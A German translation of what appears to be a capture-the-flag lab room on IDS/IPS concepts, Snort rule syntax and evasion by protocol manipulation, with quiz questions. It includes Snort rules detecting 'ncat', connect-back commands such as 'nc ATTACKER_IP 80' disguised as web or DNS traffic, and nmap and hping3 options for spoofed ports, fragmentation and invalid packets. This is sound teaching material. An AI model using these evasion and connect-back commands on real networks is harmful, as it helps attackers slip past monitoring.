








# Task 1 - Einführung
Ein Intrusion Detection System (IDS) ist ein System, das Netzwerke oder Systeme auf Eindringlinge überwacht. Eine passende Analogie wäre ein Wachmann, der Live-Übertragungen von verschiedenen Sicherheitskameras beobachtet. Er kann einen Diebstahl erkennen, aber er kann ihn nicht eigenständig stoppen. Wenn dieser Wachmann jedoch einen anderen Wachmann benachrichtigen kann, um den Dieb zu stoppen, wird aus der Erkennung eine Prävention. Ein Intrusion Detection and Prevention System (IDPS) oder einfach Intrusion Prevention System (IPS) ist ein System, das Eindringlinge erkennen und verhindern kann.

Das Verständnis des Unterschieds zwischen Erkennung und Prävention ist entscheidend. Snort ist ein Netzwerk-Einbruchserkennungs- und Einbruchverhinderungssystem. Folglich kann Snort als IDS oder als IPS eingerichtet werden. Damit Snort als IPS funktioniert, benötigt es einen Mechanismus, um störende Verbindungen zu blockieren (`drop`). Diese Fähigkeit erfordert, dass Snort `inline` eingerichtet wird und zwei oder mehr Netzwerkkarten überbrückt.

Als signaturbasiertes Netzwerk-IDS ist Snort in der untenstehenden Abbildung dargestellt.  


Die folgende Abbildung zeigt, wie Snort als IPS konfiguriert werden kann, wenn es inline eingerichtet ist.  


IDS-Setups können basierend auf ihrem Standort im Netzwerk in folgende Kategorien unterteilt werden:

1. Host-basierte IDS (HIDS)
2. Netzwerk-basierte IDS (NIDS)

Das Host-basierte IDS (HIDS) wird zusammen mit anderen laufenden Anwendungen auf einem Betriebssystem installiert. Diese Konfiguration ermöglicht es dem HIDS, den eingehenden und ausgehenden Datenverkehr des Hosts zu überwachen; außerdem kann es die auf dem Host laufenden Prozesse überwachen.

Das Netzwerk-basierte IDS (NIDS) ist ein dediziertes Gerät oder Server zur Überwachung des Netzwerkverkehrs. Das NIDS sollte so angeschlossen sein, dass es den gesamten Netzwerkverkehr des Netzwerks oder der VLANs, die wir schützen möchten, überwachen kann. Dies kann erreicht werden, indem das NIDS an einen Monitor-Port des Switches angeschlossen wird. Das NIDS verarbeitet den Netzwerkverkehr, um bösartigen Datenverkehr zu erkennen.

In der untenstehenden Abbildung verwenden wir zwei rote Kreise, um den Unterschied in der Abdeckung zwischen einem HIDS und einem NIDS zu zeigen.  


## Fragen:
Wofür steht IPS?
```

```

Wie nennt man ein System, das bösartige Aktivitäten erkennen, aber nicht stoppen kann?
```

```

# Task 2 - IDS Engine Types
Wir können den Netzwerkverkehr wie folgt klassifizieren:

1. **Gutartiger Verkehr** (benign traffic): Dies ist der übliche Verkehr, den wir erwarten und über den das IDS uns nicht alarmieren soll.
2. **Bösartiger Verkehr** (malicious traffic): Dies ist ungewöhnlicher Verkehr, den wir unter normalen Bedingungen nicht erwarten und den das IDS daher erkennen soll.


Auf die gleiche Weise, wie wir den Netzwerkverkehr klassifizieren können, können wir auch die Aktivitäten eines Hosts klassifizieren. Die Erkennungsengine (detection engine) eines IDS ist entweder darauf ausgelegt, bösartigen Verkehr und Aktivitäten zu erkennen, oder darauf, normalen Verkehr und Aktivitäten zu identifizieren. Das Erkennen von „normalem“ Verhalten erleichtert es, jede Abweichung vom Normalen zu erkennen.

Folglich kann die Erkennungsengine eines IDS wie folgt sein:

1. **Signaturbasiert** (signature-based): Ein signaturbasiertes IDS erfordert vollständiges Wissen über bösartigen (oder unerwünschten) Verkehr. Mit anderen Worten, wir müssen der signaturbasierten Erkennungsengine explizit die Merkmale von bösartigem Verkehr mitteilen. Dies kann durch explizite Regeln erreicht werden, gegen die der Verkehr abgeglichen wird.
2. **Anomaliebasiert** (anomaly-based): Dies erfordert, dass das IDS weiß, wie regulärer Verkehr aussieht. Mit anderen Worten, wir müssen dem IDS beibringen, was normal ist, damit es erkennen kann, was **nicht** normal ist. Das Lehren des IDS über normalen Verkehr, also Basisverkehr, kann durch maschinelles Lernen oder manuelle Regeln erreicht werden.

Anders ausgedrückt, erkennt ein signaturbasiertes IDS bösartigen Verkehr, sodass alles, was nicht bösartig ist, als gutartig (normal) betrachtet wird. Dieser Ansatz findet sich häufig in Antivirensoftware, die eine Datenbank mit bekannten Virensignaturen hat. Alles, was einer Signatur entspricht, wird als Virus erkannt.

Ein anomaliebasiertes IDS erkennt normalen Verkehr, sodass alles, was vom Normalen abweicht, als bösartig betrachtet wird. Dieser Ansatz ähnelt eher der menschlichen Wahrnehmung; man hat bestimmte Erwartungen an Geschwindigkeit, Leistung und Reaktionsfähigkeit, wenn man seinen Webbrowser startet. Mit anderen Worten, man weiß, was „normal“ für seinen Browser ist. Wenn man plötzlich bemerkt, dass der Webbrowser zu träge oder nicht reagiert, weiß man, dass etwas nicht stimmt. Mit anderen Worten, man erkennt es, wenn die Leistung des Browsers vom Normalen abweicht.

## Fragen:
Welche Art von IDS-Engine hat eine Datenbank mit allen bekannten bösartigen Paket-Inhalten?
```

```

Welche Art von IDS-Engine muss lernen, wie normaler Verkehr aussieht, anstatt bösartigen Verkehr?
```

```

Welche Art von IDS-Engine muss ständig aktualisiert werden, da neue bösartige Pakete und Aktivitäten entdeckt werden?
```

```

# Task 3 - IDS/IPS Rule Triggering
Jedes IDS/IPS verwendet eine bestimmte Syntax zum Schreiben seiner Regeln. Zum Beispiel verwendet Snort das folgende Format für seine Regeln: Rule Header (Rule Options), wobei der **Rule Header** Folgendes umfasst:

- Aktion (Action): Beispiele für Aktionen sind `alert`, `log`, `pass`, `drop` und `reject`.
- Protokoll (Protocol): `TCP`, `UDP`, `ICMP` oder `IP`.
- Quell-IP/Quell-Port (Source IP/Source Port): `!10.10.0.0/16 any` bezieht sich auf alles, was nicht im Klasse-B-Subnetz `10.10.0.0/16` liegt.
- Flussrichtung (Direction of Flow): `->` zeigt den Verkehr von links (Quelle) nach rechts (Ziel) an, während `<>` bidirektionalen Verkehr anzeigt.
- Ziel-IP/Ziel-Port (Destination IP/Destination Port): `10.10.0.0/16` any bezieht sich auf das Klasse-B-Subnetz `10.10.0.0/16`.

Unten ist ein Beispiel für eine Regel, um sämtlichen ICMP-Verkehr, der durch Snort IPS läuft, zu blockieren (`drop`):

```plaintext
drop icmp any any -> any any (msg: "ICMP Ping Scan"; dsize:0; sid:1000020; rev: 1;)
```

Die obige Regel weist das Snort IPS an, jedes Paket des Typs ICMP von beliebiger Quell-IP-Adresse (auf beliebigem Port) zu beliebiger Ziel-IP-Adresse (auf beliebigem Port) zu blockieren. Die Nachricht, die zu den Protokollen hinzugefügt wird, lautet „ICMP Ping Scan.“  


Betrachten wir einen hypothetischen Fall, in dem eine Sicherheitsanfälligkeit in unserem Webserver entdeckt wird. Diese Anfälligkeit liegt darin, wie unser Webserver HTTP-POST-Anfragen verarbeitet, was es einem Angreifer ermöglicht, Systembefehle auszuführen.

Wir betrachten den folgenden „naiven“ Ansatz. Wir möchten eine Snort-Regel erstellen, die den Begriff `ncat` im Payload des Verkehrs mit unserem Webserver erkennt, um zu lernen, wie diese Anfälligkeit ausgenutzt wird.

```plaintext
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; content:"ncat"; sid: 1000030; rev:1;)
```

Die obige Regel untersucht den Inhalt der Pakete, die mit Port 80 ausgetauscht werden, auf die Zeichenfolge `ncat`. Alternativ können Sie den Inhalt, nach dem Snort suchen soll, im Hexadezimalformat schreiben. `ncat` in ASCII wird als `6e 63 61 74` in Hexadezimal geschrieben und durch zwei Pipe-Zeichen `|` als Zeichenfolge gekapselt.

```plaintext
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; content:"|6e 63 61 74|"; sid: 1000031; rev:1;)
```

Wir können die Regel weiter verfeinern, wenn wir erwarten, dass der Begriff in HTTP-POST-Anfragen auftaucht. Beachten Sie, dass `flow:established` der Snort-Engine mitteilt, dass sie Streams betrachten soll, die durch ein TCP 3-Wege-Handshake (etablierte Verbindungen) gestartet wurden.

```plaintext
alert tcp any any <> any 80 (msg: "Netcat Exploitation"; flow:established,to_server; content:"POST"; nocase; http_method; content:"ncat"; nocase; sid:1000032; rev:1;)
```

Wenn die ASCII-Protokollierung gewählt wird, wären die Protokolle den beiden folgenden Warnungen ähnlich.
```plaintext
[**] [1:1000031:1] Netcat Exploitation [**]
[Priority: 0] 
01/14-12:51:26.717401 10.14.17.226:45480 -> 10.10.112.168:80
TCP TTL:63 TOS:0x0 ID:34278 IpLen:20 DgmLen:541 DF
***AP*** Seq: 0x26B5C2F  Ack: 0x0  Win: 0x0  TcpLen: 32

[**] [1:1000031:1] Netcat Exploitation [**]
[Priority: 0] 
01/14-12:51:26.717401 10.14.17.226:45480 -> 10.10.112.168:80
TCP TTL:63 TOS:0x0 ID:34278 IpLen:20 DgmLen:541 DF
***AP*** Seq: 0x26B5C2F  Ack: 0xF1090882  Win: 0x3F  TcpLen: 32
TCP Options (3) => NOP NOP TS: 2244530364 287085341
```

Es gibt einige Punkte zu beachten, wenn es um signaturbasierte IDS und deren Regeln geht. Wenn der Angreifer auch nur geringfügige Änderungen vornimmt, um die Verwendung von `ncat` wörtlich in seinem Payload zu vermeiden, würde der Angriff unbemerkt bleiben. Wie wir schließen können, ist ein signaturbasiertes IDS oder IPS auf die Qualität und Aktualität seiner Signaturen (Regeln) beschränkt. Wir besprechen einige Umgehungstechniken in der nächsten Aufgabe.

## Fragen:
In der beigefügten Datei zeigen die Protokolle, dass eine bestimmte IP-Adresse unser System mit der IP-Adresse `10.10.112.168` gescannt hat. Welche IP-Adresse führt den Port-Scan durch?
```

```

# Task 4 - Evasion via Protocol Manipulation
Das Umgehen eines signaturbasierten IDS/IPS erfordert, dass Sie Ihren Verkehr so manipulieren, dass er keine Signaturen des IDS/IPS mehr entspricht. Hier sind vier allgemeine Ansätze, die Sie in Betracht ziehen könnten, um IDS/IPS-Systeme zu umgehen:

1. **Umgehung durch Protokollmanipulation (Evasion via Protocol Manipulation)**: Dies umfasst das Verändern oder Ausnutzen von Protokollfunktionen, um die Erkennung durch IDS/IPS zu erschweren. Beispiele sind die Nutzung von Fragmentierung oder das Anpassen von Protokollfeldern.

2. **Umgehung durch Payload-Manipulation (Evasion via Payload Manipulation)**: Dies beinhaltet das Verändern des Payloads, um Muster oder Signaturen zu vermeiden. Techniken umfassen die Verschlüsselung oder Kodierung des Payloads, das Einfügen von Padding oder das Verändern von Zeichenfolgen.

3. **Umgehung durch Routenmanipulation (Evasion via Route Manipulation)**: Hierbei wird die Route, die der Verkehr nimmt, verändert, um die Überwachung durch das IDS/IPS zu umgehen. Dies kann durch das Verwenden von Tunneling oder das Ändern von Netzwerkrouten erfolgen.

4. **Umgehung durch taktische Denial-of-Service (DoS) (Evasion via Tactical Denial of Service (DoS))**: Diese Technik zielt darauf ab, das IDS/IPS durch Überlastung oder Störung der Systemressourcen unbrauchbar zu machen. Hierzu gehören Angriffe, die darauf abzielen, das IDS/IPS mit unnötigem oder irrelevantem Verkehr zu überfluten.


Dieser Raum konzentriert sich auf die Umgehung durch die Verwendung von `nmap` und `ncat/socat`. Die Umgehungstechniken im Zusammenhang mit Nmap werden im Detail im Raum „Firewalls“ behandelt. Dieser Raum wird `ncat` und `socat` hervorheben, wo dies angebracht ist.

Wir werden jede dieser Ansätze in eigenen Aufgaben näher betrachten. Lassen Sie uns mit dem ersten beginnen. Die Umgehung durch Protokollmanipulation umfasst:

1. **Verwendung eines anderen Protokolls (Relying on a different protocol)**: Dabei wird ein alternatives Protokoll genutzt, um die Erkennung durch IDS/IPS-Systeme zu umgehen. Zum Beispiel könnte ein Angreifer HTTP statt TCP verwenden.

2. **Manipulation des (Quell-)TCP/UDP-Ports (Manipulating (Source) TCP/UDP port)**: Hierbei werden die Quell- oder Zielports verändert, um bestehende Regeln zu umgehen, die auf bestimmte Ports abzielen.

3. **Verwendung von Sitzungsspaltung (IP-Paketfragmentierung) (Using session splicing (IP packet fragmentation))**: Dies beinhaltet das Aufteilen von Paketen in kleinere Fragmente, um die Erkennung durch IDS/IPS-Systeme zu erschweren, die nur auf vollständige Pakete überprüfen.

4. **Versenden ungültiger Pakete (Sending invalid packets)**: Dabei werden absichtlich ungültige oder fehlerhafte Pakete gesendet, um das IDS/IPS zu verwirren oder dazu zu bringen, die Pakete nicht zu erkennen oder zu verarbeiten.


### Verlassen auf ein anderes Protokoll

Das IDS/IPS-System könnte so konfiguriert sein, dass bestimmte Protokolle blockiert und andere erlaubt werden. Beispielsweise könnten Sie in Erwägung ziehen, UDP anstelle von TCP zu verwenden oder HTTP statt DNS zu nutzen, um einen Angriff durchzuführen oder Daten zu exfiltrieren. Sie können das Wissen, das Sie über das Ziel und die für die Zielorganisation erforderlichen Anwendungen gesammelt haben, nutzen, um Ihren Angriff zu entwerfen. Wenn beispielsweise Web-Browsing erlaubt ist, bedeutet dies in der Regel, dass geschützte Hosts mit den Ports 80 und 443 verbunden werden können, es sei denn, ein lokaler Proxy wird verwendet. In einem Fall verließ sich der Kunde für sein Geschäft auf Google-Dienste, daher nutzte der Angreifer Google-Webhosting, um seine bösartige Website zu verbergen. Leider gibt es keine universelle Lösung; es könnte zudem erforderlich sein, etwas auszuprobieren und Fehler zu machen, solange Sie nicht zu viel Lärm verursachen.

Wir haben ein IPS, das DNS-Abfragen und HTTP-Anfragen blockiert, wie in der untenstehenden Abbildung dargestellt. Insbesondere wird die Richtlinie durchgesetzt, dass lokale Maschinen keine externen DNS-Server abfragen dürfen, sondern stattdessen den lokalen DNS-Server abfragen sollen; außerdem wird sichere HTTP-Kommunikation durchgesetzt. Das IPS ist relativ permissiv, was HTTPS betrifft. In diesem Fall scheint die Verwendung von HTTPS zur Tunnelung des Verkehrs ein vielversprechender Ansatz zu sein, um das IPS zu umgehen.  


[Ncat](https://nmap.org/ncat) verwendet standardmäßig eine TCP-Verbindung; Sie können es jedoch auch dazu bringen, UDP zu verwenden, indem Sie die Option `-u` nutzen.

- **Zum Lauschen mit TCP** geben Sie einfach `ncat -lvnp PORT_NUM` ein, wobei `PORT_NUM` die Portnummer ist, auf der Sie lauschen möchten.
- **Um sich mit einer Ncat-Instanz, die auf einem TCP-Port lauscht, zu verbinden**, können Sie `ncat TARGET_IP PORT_NUM` eingeben.

Beachten Sie dabei:

- **-l** weist Ncat an, auf eingehende Verbindungen zu lauschen.
- **-v** liefert ausführlichere Ausgaben, wenn Ncat an einen Quellport bindet und eine Verbindung empfängt.
- **-n** vermeidet die Auflösung von Hostnamen.
- **-p** gibt die Portnummer an, auf der Ncat lauschen wird.

Wie bereits erwähnt, wird durch die Verwendung von `-u` die gesamte Kommunikation über UDP durchgeführt.

- **Zum Lauschen mit UDP** geben Sie einfach `ncat -ulvnp PORT_NUM` ein, wobei `PORT_NUM` die Portnummer ist, auf der Sie lauschen möchten. Beachten Sie, dass Ncat standardmäßig TCP verwendet, es sei denn, Sie fügen `-u` hinzu.
- **Um sich mit einer Ncat-Instanz, die auf einem UDP-Port lauscht, zu verbinden**, können Sie `nc -u TARGET_IP PORT_NUM` verwenden.

Betrachten Sie die folgenden zwei Beispiele:

- Das Ausführen von `ncat -lvnp 25` auf dem Angreifer-System und das Verbinden damit vermittelt den Eindruck, es handele sich um eine normale TCP-Verbindung mit einem SMTP-Server, es sei denn, das IDS/IPS bietet eine tiefgehende Paketinspektion (DPI).
- Das Ausführen von `ncat -ulvnp 162` auf der Angreifer-Maschine und das Verbinden damit vermittelt den Eindruck, es handele sich um eine normale UDP-Kommunikation mit einem SNMP-Server, es sei denn, das IDS/IPS unterstützt DPI.

### Manipulation von (Quell-)TCP/UDP-Ports

Im Allgemeinen werden die TCP- und UDP-Quell- und Zielports selbst von den grundlegendsten Sicherheitslösungen überprüft. Ohne tiefgehende Paketinspektion sind die Portnummern der Hauptindikator für den verwendeten Dienst. Mit anderen Worten, Netzwerkverkehr, der TCP-Port 22 betrifft, wird als SSH-Verkehr interpretiert, es sei denn, die Sicherheitslösung kann die von den TCP-Segmenten übertragenen Daten analysieren.

Je nach Sicherheitslösung des Ziels können Sie Ihren Port-Scan-Verkehr so gestalten, dass er wie Web-Browsing oder DNS-Abfragen aussieht. Wenn Sie Nmap verwenden, können Sie die Option `-g PORT_NUMBER` (oder `--source-port PORT_NUMBER`) hinzufügen, um Nmap anzuweisen, den gesamten Verkehr von einer bestimmten Quellportnummer aus zu senden.

Wenn Sie ein Ziel scannen, verwenden Sie `nmap -sS -Pn -g 80 -F MACHINE_IP`, um den Port-Scan-Verkehr auf den ersten Blick wie den Austausch mit einem HTTP-Server aussehen zu lassen.

Wenn Sie an der Untersuchung von UDP-Ports interessiert sind, können Sie `nmap -sU -Pn -g 53 -F MACHINE_IP` verwenden, um den Verkehr wie den Austausch mit einem DNS-Server erscheinen zu lassen.  


**Verwendung von Ncat zur Tarnung des Verkehrs**

Betrachten wir den Fall, in dem Sie Ncat verwenden. Sie können versuchen, den Verkehr so zu tarnen, dass er wie DNS-Verkehr aussieht.

- **Auf der Angreifer-Maschine**, wenn Sie Ncat verwenden möchten, um auf UDP-Port 53 zu lauschen, wie es ein DNS-Server tun würde, können Sie den folgenden Befehl verwenden:
  ```plaintext
  ncat -ulvnp 53
  ```
- **Auf dem Ziel** können Sie es so konfigurieren, dass es sich mit dem lauschenden Server verbindet, indem Sie diesen Befehl verwenden:
  ```plaintext
  ncat -u ATTACKER_IP 53
  ```

Alternativ können Sie den Verkehr so erscheinen lassen, als wäre es Web-Verkehr, bei dem Clients mit einem HTTP-Server kommunizieren.

- **Auf der Angreifer-Maschine**, um Ncat dazu zu bringen, auf TCP-Port 80 zu lauschen, wie es ein harmloser Webserver tun würde, verwenden Sie:
  ```plaintext
  ncat -lvnp 80
  ```
- **Auf dem Ziel**, um sich mit dem lauschenden Server zu verbinden, verwenden Sie:
  ```plaintext
  nc ATTACKER_IP 80
  ```


### Verwendung von Sitzungsspaltung (IP-Paketfragmentierung)

Ein weiterer Ansatz im IPv4-Netzwerk ist die IP-Paketfragmentierung, auch bekannt als Sitzungsspaltung. Die Annahme ist, dass Sie durch das Zerlegen von Paket(en), die mit einem Angriff zusammenhängen, in kleinere Pakete, die IDS-Signaturen umgehen können. Wenn das IDS nach einem bestimmten Byte-Strom sucht, um die bösartige Nutzlast zu erkennen, teilen Sie Ihre Nutzlast auf mehrere Pakete auf. Es sei denn, das IDS setzt die Pakete wieder zusammen, wird die Regel nicht ausgelöst.

Nmap bietet einige Optionen zur Fragmentierung von Paketen. Sie können folgende Optionen hinzufügen:

- **-f** um die Daten im IP-Paket auf 8 Bytes zu begrenzen.
- **-ff** um die Daten im IP-Paket auf maximal 16 Bytes zu begrenzen.
- **--mtu SIZE** um eine benutzerdefinierte Größe für die Daten im IP-Paket anzugeben. Die Größe sollte ein Vielfaches von 8 sein.

Wenn Sie alle Ihre Pakete auf spezifische Größen fragmentieren möchten, sollten Sie ein Programm wie Fragroute in Betracht ziehen. `fragroute` kann so konfiguriert werden, dass es eine Reihe von Regeln aus einer gegebenen Konfigurationsdatei liest und auf eingehende Pakete anwendet. Für einfache IP-Paketfragmentierung reicht es aus, eine Konfigurationsdatei mit `ip_frag SIZE` zu verwenden, um die IP-Daten gemäß der angegebenen Größe zu fragmentieren. Die Größe sollte ein Vielfaches von 8 sein.

Zum Beispiel können Sie eine Konfigurationsdatei `fragroute.conf` mit einer Zeile `ip_frag 16` erstellen, um Pakete zu fragmentieren, bei denen die IP-Datenfragmente 16 Bytes nicht überschreiten. Dann würden Sie den Befehl `fragroute -f fragroute.conf HOST` ausführen. Der Host ist das Ziel, an das wir die fragmentierten Pakete senden würden.

### Versenden ungültiger Pakete

Im Allgemeinen neigen Systeme dazu, auf gültige Pakete vorhersehbar zu reagieren. Es kann jedoch unklar sein, wie Systeme auf ungültige Pakete reagieren. Beispielsweise könnte ein IDS/IPS ein ungültiges Paket verarbeiten, während das Zielsystem es ignorieren könnte. Das genaue Verhalten würde einige Experimente oder Insiderwissen erfordern.

Nmap ermöglicht es, ungültige Pakete auf verschiedene Weise zu erstellen. Zwei häufige Optionen sind:

- **Ungültiger TCP/UDP-Checksumme**: Nmap lässt Sie Pakete mit einem falschen TCP/UDP-Checksumme senden, indem Sie die Option `--badsum` verwenden. Eine falsche Prüfziffer zeigt an, dass das ursprüngliche Paket irgendwo auf seinem Weg vom sendenden Programm verändert wurde.
  
- **Ungültige TCP-Flags**: Nmap ermöglicht das Senden von Paketen mit benutzerdefinierten TCP-Flags, einschließlich ungültiger. Die Option `--scanflags` lässt Sie wählen, welche Flags Sie setzen möchten.

  - **URG** für Urgent
  - **ACK** für Acknowledge
  - **PSH** für Push
  - **RST** für Reset
  - **SYN** für Synchronize
  - **FIN** für Finish

  Zum Beispiel, wenn Sie die Flags Synchronize, Reset und Finish gleichzeitig setzen möchten, können Sie `--scanflags SYNRSTFIN` verwenden, obwohl diese Kombination möglicherweise nicht vorteilhaft für Ihre Zwecke ist.

Wenn Sie Ihre Pakete mit benutzerdefinierten Feldern, ob gültig oder ungültig, erstellen möchten, sollten Sie ein Werkzeug wie `hping3` in Betracht ziehen. Hier sind einige Beispieloptionen, um Ihnen eine Vorstellung von der Paketgestaltung mit `hping3` zu geben:

- **-t** oder **--ttl** um die Time to Live (TTL) im IP-Header festzulegen
- **-b** oder **--badsum** um Pakete mit einer schlechten UDP/TCP-Prüfziffer zu senden
- **-S**, **-A**, **-P**, **-U**, **-F**, **-R** um die TCP-Flags SYN, ACK, PUSH, URG, FIN und RST zu setzen

Es gibt viele weitere Optionen. Je nach Ihren Bedürfnissen möchten Sie möglicherweise die manuelle Seite von `hping3` für die vollständige Liste überprüfen.

## Fragen:
